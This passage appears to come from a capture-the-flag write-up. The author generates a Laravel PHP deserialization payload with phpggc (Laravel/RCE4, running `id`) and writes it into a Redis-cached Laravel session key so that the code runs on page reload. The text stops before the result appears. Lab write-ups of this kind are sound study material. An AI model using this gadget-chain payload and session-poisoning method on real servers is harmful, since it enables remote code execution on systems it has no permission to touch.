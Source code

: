 ![image*](/img/image-20220629133553627.png)

These imply that it's using at least Laravel 5.7. `Laravel/RCE4` seems
to cover the range I'm targeting (5.4.0 \<= 8.6.9+), so I'll build a
payload to run `id`:



    oxdf@hacky$ /opt/phpggc/phpggc -a Laravel/RCE4 system id
    O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:2:"id";}



I'll get a fresh session in the cache, and update it:



    127.0.0.1:6379> keys *
    1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
    127.0.0.1:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:2:"id";}'
    OK



Now when I refresh that login page again:
